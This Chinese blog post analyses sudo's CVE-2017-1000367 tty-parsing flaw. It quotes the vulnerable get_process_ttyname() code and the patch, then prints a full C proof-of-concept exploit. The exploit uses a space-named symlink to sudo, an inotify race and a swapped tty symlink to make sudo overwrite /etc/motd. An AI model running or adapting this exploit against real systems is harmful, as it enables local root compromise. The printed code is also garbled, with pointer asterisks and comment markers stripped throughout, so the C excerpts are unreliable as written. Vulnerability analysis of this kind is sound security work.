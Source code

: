 ```yaml
---
layout: post
title: sudo本地提权 CVE-2017-1000367 漏洞分析
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;该漏洞发生在/src/ttyname.c的`get_process_ttyname()`函数，sudo在获取tty设备号时没有正确解析/proc/[pid]/stat的内容。首先，/proc/[pid]的stat包含了所有的CPU活跃信息，有关触发此漏洞的两个stat参数分别为：
```
第2个：comm应用程序或命令的名字
第7个：tty_nr也就是tty设备号
```

这些参数是使用空格进行分割的，再来看看get_process_ttyname()函数是怎么获取`tty_nr`的：

```
len = getline(&line, &linesize, fp);
fclose(fp);
if (len != -1) {
    / Field 7 is the tty dev (0 if no tty) /
    char cp = line;
    char ep = line;
    const char errstr;
    int field = 0;
    while (++ep != '\0') {
        if (ep == ' ') {
            ep = '\0';
            if (++field == 7) {
                dev_t tdev = strtonum(cp, INT_MIN, INT_MAX, &errstr);
                if (errstr) {
                    sudo_debug_printf(SUDO_DEBUG_ERROR|SUDO_DEBUG_LINENO,
                        "%s: tty device %s: %s", path, cp, errstr);
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;程序在获取tty_nr时也就是根据多少空格个来判断当前是哪个参数，那么上面提到的第2个参数comm，这个参数是以括号独立起来的，并且程序或命令的名字当然允许包含空格。那么就可以通过控制comm参数的空格导致tty_nr的值同样被控制，使得本地攻击者来覆盖文件系统上的任何文件，从而绕过预期权限或获取root shell。

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;再来看看补丁，补丁第一处是将get_process_ttyname()函数在获取tty_nr时从’)’后开始获取，这样避免了comm包含空格的特性：

```
if (nread == 0 && memchr(buf, '\0', cp - buf) == NULL) {
    /
      Field 7 is the tty dev (0 if no tty).
      Since the process name at field 2 "(comm)" may include
      whitespace (including newlines), start at the last ')' found.
     /
    cp = '\0';
    cp = strrchr(buf, ')');
    if (cp != NULL) {
    char ep = cp;
    const char errstr;
    int field = 1;

    while (++ep != '\0') {
        if (ep == ' ') {
        ep = '\0';
        if (++field == 7) {
            dev_t tdev = strtonum(cp, INT_MIN, INT_MAX, &errstr);
            if (errstr) {
            sudo_debug_printf(SUDO_DEBUG_ERROR|SUDO_DEBUG_LINENO,
                "%s: tty device %s: %s", path, cp, errstr);
            }
            if (tdev > 0) {
            errno = serrno;
            ret = sudo_ttyname_dev(tdev, name, namelen);
            goto done;
            }
            break;
        }
        cp = ep + 1;
        }
    }
    }
}
```

第二处是添加了搜索设备号对应的设备名的两个地址：

```
 static char ignore_devs[] = {
     "/dev/fd/",
+    "/dev/mqueue/",
+    "/dev/shm/",
     "/dev/stdin",
     "/dev/stdout",
     "/dev/stderr",
```

POC:

```
#define _GNU_SOURCE
#include <errno.h>
#include <linux/sched.h>
#include <pty.h>
#include <sched.h>
#include <signal.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/inotify.h>
#include <sys/resource.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/wait.h>

#define EVENT_SIZE  ( sizeof (struct inotify_event) )
#define EVENT_BUF_LEN     ( 1024  ( EVENT_SIZE + 16 ) )


int main( )
{

    int length, i = 0;
  int fd;
  int wd;
  char buffer[EVENT_BUF_LEN];

    int master, slave;
    char pts_path[256];

    cpu_set_t  mask;
    struct sched_param params;
    params.sched_priority = 0;
    CPU_ZERO(&mask);
    CPU_SET(0, &mask);

    mkdir("/dev/shm/_tmp", 0755);
    symlink("/dev/pts/57", "/dev/shm/_tmp/_tty");
    symlink("/usr/bin/sudo", "/dev/shm/_tmp/     34873 ");

    fd = inotify_init();
    wd = inotify_add_watch( fd, "/dev/shm/_tmp", IN_OPEN | IN_CLOSE_NOWRITE );

     pid_t pid = fork();

    if(pid == 0) {
        sched_setaffinity(pid, sizeof(mask), &mask);
        sched_setscheduler(pid, SCHED_IDLE, &params);
        setpriority(PRIO_PROCESS, pid, 19);

        sleep(1);
        execlp("/dev/shm/_tmp/     34873 ", "sudo", "-r", "unconfined_r", "/usr/bin/sum", "—\nHELLO\nWORLD\n", NULL);
    }else{
        setpriority(PRIO_PROCESS, 0, -20);
        int state = 0;
        while(1) {
            length = read( fd, buffer, EVENT_BUF_LEN );
            kill(pid, SIGSTOP);

            i=0;
            while ( i < length ) {
                struct inotify_event event = ( struct inotify_event * ) &buffer[ i ];

                if ( event->mask & IN_OPEN ) {
                    //kill(pid, SIGSTOP);

                    while(strcmp(pts_path,"/dev/pts/57")){
                        openpty(&master, &slave, &pts_path[0], NULL, NULL);
                    };
                    //kill(pid, SIGCONT);
                    break;

                }else if ( event->mask & IN_CLOSE_NOWRITE ) {
                    //kill(pid, SIGSTOP);

                    unlink("/dev/shm/_tmp/_tty");
                    symlink("/etc/motd", "/dev/shm/_tmp/_tty");
                    //kill(pid, SIGCONT);

                    state = 1;
                    break;
                }

                i += EVENT_SIZE + event->len;

            }
            kill(pid, SIGCONT);
            if(state == 1) break;
        }

        waitpid(pid, NULL, 0);
        inotify_rm_watch( fd, wd );
        close( fd );
        close(wd);

        unlink("/dev/shm/_tmp/_tty");
        unlink("/dev/shm/_tmp/     34873 ");
        rmdir("/dev/shm/_tmp");
        close(master);
        close(slave);
    }

}
```

<img src="http://pfr2vvlbk.bkt.clouddn.com/4refdergth.png">

